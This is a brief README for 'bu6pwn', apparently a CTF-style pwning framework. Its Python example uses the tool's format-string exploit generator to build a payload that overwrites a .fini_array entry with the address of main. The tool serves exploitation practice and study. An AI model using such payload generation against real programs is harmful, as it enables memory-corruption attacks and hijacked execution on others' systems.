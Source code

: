 # bu6pwn
## Pwning Framework

### Functionalities
- Format String Bug Exploit Generator
    + Example
    ```python
    #!/usr/bin/env python3
    from bu6pwn.FSB import FSB

    addr_main       = 0x0804849b
    addr_fini_arr   = 0x080496dc

    exploit = b'%2$08x%264$08x'

    fsb = FSB(header=len(exploit), count=len(exploit), size=2, debug=True)

    fsb.set_adrval(addr_fini_arr, addr_main)
    fsb.auto_write(index=7)
    exploit += fsb.get()
    print(exploit.decode())
    ```
